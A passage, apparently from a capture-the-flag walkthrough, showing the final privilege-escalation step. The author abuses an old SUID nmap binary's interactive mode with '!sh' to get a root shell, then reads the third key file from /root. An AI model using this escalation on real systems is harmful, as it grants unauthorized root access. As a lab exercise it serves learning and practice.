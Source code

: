 ```shell
robot@linux:/opt/bitnami/apps/wordpress/htdocs$ /usr/local/bin/nmap --interactive
<ps/wordpress/htdocs$ /usr/local/bin/nmap --interactive                      

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

### Key 3
We can now get the Key 3:

```shell
cat /root/key-3-of-3.txt
```
